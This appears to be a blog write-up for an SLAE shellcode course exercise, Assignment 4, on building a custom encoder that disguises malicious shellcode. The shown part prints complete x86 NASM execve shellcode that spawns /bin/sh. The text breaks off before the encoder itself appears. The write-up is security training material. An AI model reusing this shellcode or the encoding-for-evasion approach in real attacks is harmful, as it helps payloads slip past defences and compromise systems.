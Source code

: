 ```yaml
---
redirect_to: 'https://thesinkinthewardrobe.com/slae-assignment-04/'
---
```


# Assignment #4 - Custom Encoder 

**Exercise description:** Creating a custom encoding scheme similar to the *insertion encoder* technique. The PoC should make use of *execve-stack* as the shellcode to encode with the proposed schema.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_4/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

Encoding is a technique used to disguise malicious shellcode on apparently unuseful code. The purpose of this assignment is to create a custom encoder/decoder capable of hiding a shellcode that will launch a shell using the *execve* syscall.

To complete this task is necessary to fulfill three sub-tasks:

1. Generating the malicious shellcode to execute
2. Encoding the shellcode using a custom schema
3. Decoding the shellcode *on the fly*

*To summarize, the techniques for compiling assembly files and extracting the shellcode from a binary file will be explained on the Executing the Code section.*

## Generating the malicious shellcode to execute

For this task, the shellcode used will be an *execve()* syscall to invoke a shell.
````
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 

	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80

````
``execve-stack.nasm``
